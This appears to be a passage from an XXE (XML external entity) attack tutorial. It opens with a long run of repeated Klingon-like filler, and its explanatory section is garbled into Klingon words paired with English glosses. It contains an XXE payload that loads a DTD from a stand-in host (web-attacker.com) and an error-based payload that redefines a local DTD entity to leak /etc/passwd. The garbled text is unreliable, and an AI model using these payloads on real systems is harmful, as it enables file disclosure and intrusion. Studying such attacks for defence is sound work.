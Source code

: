 vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlhutlh, vaj DTD vItlhutlh vItlh
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
### **Error Based (system DTD)**

**QaQ** (external DTD) **vItlhutlh** (out-of-band interactions are blocked) **'ej** (external connections aren't available)?.

**XML** (XML language specification) **DaH** (expose sensitive data through error messages) **'e'** (document's DTD blends internal and external declarations) **ghItlh** (loophole) **XML** (XML parameter entity) **'ej** (originally declared in an external DTD) **'e'** (internal DTD) **redefinition** (facilitating the execution of error-based XXE attacks). **attackers** (Such attacks) **XML** (XML parameter entity) **redefinition** (originally declared in an external DTD) **'ej** (from within an internal DTD) **'e'** (exploit). **server** (When out-of-band connections are blocked by the server) **'ej** (attackers) **rely** (must rely) **local DTD files** (on local DTD files) **conduct** (to conduct) **attack** (the attack), **aiming** (aiming) **parsing error** (to induce a parsing error) **reveal** (to reveal) **sensitive information** (sensitive information).


**/usr/local/app/schema.dtd** (Consider a scenario where the server's filesystem contains a DTD file at `/usr/local/app/schema.dtd`), **custom_entity** (defining an entity named `custom_entity`). **attacker** (An attacker) **submitting** (can induce) **hybrid DTD** (a hybrid DTD) **follows** (as follows):
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

The outlined steps are executed by this DTD:

- The definition of an XML parameter entity named `local_dtd` includes the external DTD file located on the server's filesystem.
- A redefinition occurs for the `custom_entity` XML parameter entity, originally defined in the external DTD, to encapsulate an [error-based XXE exploit](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages). This redefinition is designed to elicit a parsing error, exposing the contents of the `/etc/passwd` file.
- By employing the `local_dtd` entity, the external DTD is engaged, encompassing the newly defined `custom_entity`. This sequence of actions precipitates the emission of the error message aimed for by the exploit.
